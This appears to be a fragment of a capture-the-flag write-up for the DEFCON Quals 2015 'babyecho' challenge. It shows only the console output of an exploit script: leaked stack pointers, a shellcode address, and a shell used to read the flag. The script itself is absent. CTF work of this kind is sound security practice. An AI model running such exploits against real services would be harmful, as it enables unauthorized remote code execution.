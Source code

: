 # DEFCON Quals 2015

# Baby's First

###  babyecho

```
$ python exploit.py
ptr_input       : 0xff8f51ec
ptr_buf_size    : 0xff8f51e0
gdb?
write_ptr       : 0xff8f51cc
sc_addr : 0xff8f520c
cat flag
THIS_IS_A_FLAG
exit
*** Connection closed by remote host ***
```